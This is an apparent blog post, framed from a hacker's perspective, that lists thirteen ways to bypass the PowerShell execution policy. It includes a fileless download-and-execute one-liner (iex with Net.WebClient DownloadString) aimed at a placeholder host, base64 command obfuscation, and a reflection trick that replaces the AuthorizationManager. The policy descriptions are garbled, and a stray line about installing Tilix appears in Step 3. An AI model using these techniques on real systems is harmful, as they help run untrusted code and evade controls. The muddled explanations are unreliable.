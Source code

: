 ```yaml
---
layout: post
title:  "How to Bypass PowerShell Execution Policy"
date:   2020-09-24 20:24:26 -0700
categories: PowerShell Execution Policy
---
```


<h1><b>Intro</b></h1>

PowerShell is an integral part of every windows. From hacker’s perspective, it can be an effective weapon. Even the best-laid plans can be destroyed by its execution policies. On the other hand, there are a number of strategies that can be used to circumvent the execution strategy of PowerShell. 

<h3><b>PowerShell Execution Policy Overview</b></h3>
The object of the execution regulations for the PowerShell is to monitor how to configure files are to be loaded and how scripts are executed. It is a safety feature which helps prevent the execution of malicious scripts. On windows computers, the rules can be set at the level of the computer, user level, and session level. It is necessary to remember that the execution protocol is not designed to be safe. It merely protects users from causing harm accidentally. It can be done in many ways. The execution policies are 7 steps that are the following:
•	Unrestricted: this is the main procedure for computers not running windows. It ensures that scripts are executed with an alert. 
•	Restricted: for windows computers this is the main which blocks the execution of scripts but required individual actions. 
•	Bypass: this ensures that all the scripts will run and no alerts shown or given. 
•	All signed: the required a reputable the creator to sign all the scripts and arrangement files, including the ones that are generated on the local computer. 
•	Remote signed: this is one of the main default policies on the windows servers. Only files accessed out of the internet that need a signature. 
•	Default: in here it actually sets the main policy of implementation. 
•	Undefined: where the existing scope does not contain a policy package if everything is unknown, which are limited defaults to the execution regulations.


{% highlight ruby %}

Get-ExecutionPolicy

{% endhighlight %}

Now that we've covered the basics, let's get started on some bypasses.


<h4><b>Step 1: Bypass Flag </b></h4>
Perhaps the easiest way to bypass execution policy is to use the Bypass flag. Doing so will run the script with no warnings or prompts.

To do so, open PowerShell and type:

{% highlight ruby %}
PowerShell.exe -ExecutionPolicy Bypass -File .\script.ps1
{% endhighlight %}

<h4><b>Step 2: Unrestricted Flag</b></h4>
Similar to the Bypass flag, we can use the Unrestricted flag to run our script, this time with a warning.

{% highlight ruby %}
PowerShell.exe -ExecutionPolicy Unrestricted -File .\script.ps1
{% endhighlight %}

<h4><b>Step 3: Command Switch</b></h4>
We can use the command switch to issue commands and directly run a script. This will work for simple scripts, but more complex ones will usually have errors.
Tilix is available in Kali's APT repositories and can be installed using the below command.

{% highlight ruby %}

PowerShell -command "Write-Host 'This is a test.'"

{% endhighlight %}


<h4><b>Step 4: Encoded Command Switch</b></h4>
This method is similar to the command switch but encodes the script as a base64 encoded string. This can help avoid parsing errors as well as provide a layer of obfuscation.

{% highlight ruby %}
$command = "Write-Host 'This is a test.'" $bytes = [System.Text.Encoding]::Unicode.GetBytes($command) $encodedCommand = [Convert]::ToBase64String($bytes) powershell.exe -EncodedCommand $encodedCommand
{% endhighlight %}

<h4><b>Step 5: Invoke-Command</b></h4>
The Invoke-Command method is nice in that it can be used to issue commands against remote machines when PowerShell remoting has been enabled.

{% highlight ruby %}
invoke-command -scriptblock {Write-Host "This is a test."}
{% endhighlight %}

<h4><b>Step 6: Invoke-Expression</b></h4>
We can use the Invoke-Expression method to pipe the contents of our script and be executed.

{% highlight ruby %}
Get-Content .\script.ps1 | Invoke-Expression
{% endhighlight %}

<h4><b>Step 7: Download from URL</b></h4>
PowerShell can be used to download a script from the internet, or from an attacker's machine, and then be executed without writing to disk.

{% highlight ruby %}

PowerShell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://example.com/script.ps1')"

{% endhighlight %}

<h4><b>Step 8: Paste</b></h4>
Another method to get around execution policy is to simply copy and paste the script into the interactive console. Again, this is useful for running quick scripts that aren't too complex.

{% highlight ruby %}
Write-Host "This is a test."
{% endhighlight %}

<h4><b>Step 9: Echo & Pipe</b></h4>
We can also echo the contents of our script into PowerShell standard input.

{% highlight ruby %}
Echo Write-Host "This is a test." | PowerShell -noprofile -
{% endhighlight %}

<h4><b>Step 10: Read & Pipe</b></h4>
Similar to the echo method, we can read the contents of our script and pipe it into PowerShell standard input.

{% highlight ruby %}
Get-Content .\script.ps1 | PowerShell -noprofile -
{% endhighlight %}

<h4><b>Step 11: Process Scope</b></h4>
The execution policy can be applied at different levels, including the currently controlled process. We can change the execution policy for the current process.

{% highlight ruby %}
Set-ExecutionPolicy Bypass -Scope Process
{% endhighlight %}

<h4><b>Step 12: Current User Scope</b></h4>
This method is similar to the process scope but changes the execution policy for the current user. This works by modifying a registry key under the hood.

{% highlight ruby %}
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Unrestricted
{% endhighlight %}

<h4><b>Step 13: Authorization Manager Swap</b></h4>
The final method we'll cover essentially overrides a function in PowerShell. The AuthorizationManager function will be replaced with a null value when our function is called, setting the execution policy for the session to Unrestricted, and allowing our script to run.

{% highlight ruby %}
function Disable-ExecutionPolicy {($ctx = $executioncontext.gettype().getfield("_context","nonpublic,instance").getvalue( $executioncontext)).gettype().getfield("_authorizationManager","nonpublic,instance").setvalue($ctx, (new-object System.Management.Automation.AuthorizationManager "Microsoft.PowerShell"))} Disable-ExecutionPolicy .\script.ps1
{% endhighlight %}
